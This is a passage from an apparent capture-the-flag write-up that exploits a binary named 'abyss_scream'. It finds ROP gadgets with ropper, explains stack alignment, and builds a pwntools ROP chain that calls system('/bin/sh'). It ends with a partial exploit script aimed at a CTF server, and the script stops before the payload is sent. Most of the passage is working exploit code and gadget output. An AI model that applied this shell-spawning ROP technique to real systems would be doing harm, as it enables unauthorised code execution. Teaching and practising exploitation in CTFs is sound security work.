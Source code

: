 We will need a `pop rdi` and `ret` gadget that we can find in gdb or with ropper. The reason fo the `ret` gadget is that when we perform our buffer overflow, we have to realign the stack before continuing our chain. When `ret` is invoked, it increments `$rsp` by 8. Thus, you can simply add a dummy ret to make `$rsp` 16-byte aligned.
```console
$ ropper --file abyss_scream --search "pop rdi"
[INFO] File: abyss_scream
0x00000000000013b5: pop rdi; ret; 

$ ropper --file abyss_scream --search "ret"
[INFO] File: abyss_scream
0x000000000000101a: ret;
```
## ROP Chain
We can now use both gadgets to set the first argument of the system function with the address of `/bin/sh`, and then call the `system` function.
```python
# pop_rdi gadget
pop_rdi = elf.address + 0x13b5
info(f'pop_rdi @ {hex(pop_rdi)}')

# ret gadget
ret = elf.address + 0x101a
info(f'ret @ {hex(ret)}')

# system call address
system = elf.plt.system
info(f'system @ {hex(system)}')

# leak binsh address 
bin_sh = get_leak_address(41)
print("/bin/sh @", hex(bin_sh))

payload = flat({
   padding: [
      ret,
      pop_rdi,
      bin_sh,
      system
   ]
})
```

## Final Exploit
Here is the final exploit script that executes our ROP chain with all the required addresses.
```python
from pwn import *

exe = './abyss_scream'
elf = context.binary = ELF(exe, checksec=False)

p = remote("chall.polygl0ts.ch", 9001)

padding = 280

def send_payload(payload, name=b"bytebl33d"):
  p.recvuntil(b"input: ")
  p.sendline(b"x")
  p.recvuntil(b"name: ")
  p.sendline(name)
  p.recvuntil(b"message: ")
  p.sendline(payload)

```